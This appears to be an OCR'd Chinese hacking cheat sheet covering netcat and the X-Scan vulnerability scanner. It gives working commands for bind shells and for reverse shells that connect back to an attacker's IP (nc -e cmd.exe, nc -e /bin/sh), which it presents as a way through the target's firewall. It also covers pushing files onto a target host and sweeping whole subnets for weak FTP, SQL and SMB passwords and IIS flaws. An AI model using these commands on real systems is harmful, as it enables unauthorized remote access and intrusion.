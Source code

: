 基本用法：
nc -nvv 192.168.0.1 80 连接到192.168.0.1主机的80端口
nc -l -p 80 开启本机的TCP 80端口并监听
nc -nvv -w2 -z 192.168.0.1 80-1024 扫锚192.168.0.1的80-1024端口
nc -l -p 5354 -t -e c:winntsystem32cmd.exe 绑定remote主机的cmdshell在remote的TCP 5354端口
nc -t -e c:winntsystem32cmd.exe 192.168.0.2 5354 梆定remote主机的cmdshell并反向连接192.168.0.2的5354端口
高级用法：
nc -L -p 80 作为蜜罐用1：开启并不停地监听80端口，直到CTR+C为止
nc -L -p 80 > c:log.txt 作为蜜罐用2：开启并不停地监听80端口，直到CTR+C，同时把结果输出到c:log.txt
```
nc -L -p 80 < c:honeyport.txt 作为蜜罐用3-1：开启并不停地监听80端口，直到CTR+C，并把c:honeyport.txt中内容送入管道中，亦可起到传送文件作用
type.exe c:honeyport | nc -L -p 80 作为蜜罐用3-2：开启并不停地监听80端口，直到CTR+C，并把c:honeyport.txt中内容送入管道中，亦可起到传送文件作用
本机上用：nc -l -p 本机端口
在对方主机上用：nc -e cmd.exe 本机IP -p 本机端口 *win2K
nc -e /bin/sh 本机IP -p 本机端口 *linux,unix 反向连接突破对方主机的防火墙
本机上用：nc -d -l -p 本机端口 < 要传送的文件路径及名称
在对方主机上用：nc -vv 本机IP 本机端口 > 存放文件的路径及名称 传送文件到对方主机
```
```
备 注：
| 管道命令
< 或 > 重定向命令。“<；”，例如：tlntadmn < test.txt 指把test.txt的内容赋值给tlntadmn命令
@ 表示执行@后面的命令，但不会显示出来（后台执行）；例：@dir c:winnt >> d:log.txt 意思是：后台执行dir，并把结果存在d:log.txt中
>与>>的区别 ">"指：覆盖；">>"指：保存到（添加到）。
如：@dir c:winnt >> d:log.txt和@dir c:winnt > d:log.txt二个命令分别执行二次比较看：用>>的则是把二次的结果都保存了，而用：>则只有一次的结果，是因为第二次的结果把第一次的覆盖了。
八：
扫描工具：xscan.exe
```
```
基本格式
xscan -host <；起始IP>[-<；终止IP>] <；检测项目> [其他选项] 扫锚"起始IP到终止IP"段的所有主机信息
xscan -file <；主机列表文件名> <；检测项目> [其他选项] 扫锚"主机IP列表文件名"中的所有主机信息
```
检测项目
-active 检测主机是否存活
-os 检测远程操作系统类型（通过NETBIOS和SNMP协议）
-port 检测常用服务的端口状态
-ftp 检测FTP弱口令
-pub 检测FTP服务匿名用户写权限
-pop3 检测POP3-Server弱口令
-smtp 检测SMTP-Server漏洞
-sql 检测SQL-Server弱口令
-smb 检测NT-Server弱口令
-iis 检测IIS编码/解码漏洞
-cgi 检测CGI漏洞
-nasl 加载Nessus攻击脚本
-all 检测以上所有项目
其它选项
```
-i 适配器编号 设置网络适配器，<；适配器编号>可通过"-l"参数获取
```
-l 显示所有网络适配器
-v 显示详细扫描进度
-p 跳过没有响应的主机
-o 跳过没有检测到开放端口的主机
-t 并发线程数量，并发主机数量 指定最大并发线程数量和并发主机数量，默认数量为100,10
-log 文件名 指定扫描报告文件名 （后缀为：TXT或HTML格式的文件）
用法示例
xscan -host 192.168.1.1-192.168.255.255 -all -active -p　检测192.168.1.1-192.168.255.255网段内主机的所有漏洞，跳过无响应的主机
xscan -host 192.168.1.1-192.168.255.255 -port -smb -t 150 -o 检测192.168.1.1-192.168.255.255网段内主机的标准端口状态，NT弱口令用户，最大并发线程数量为150，跳过没有检测到开放端口的主机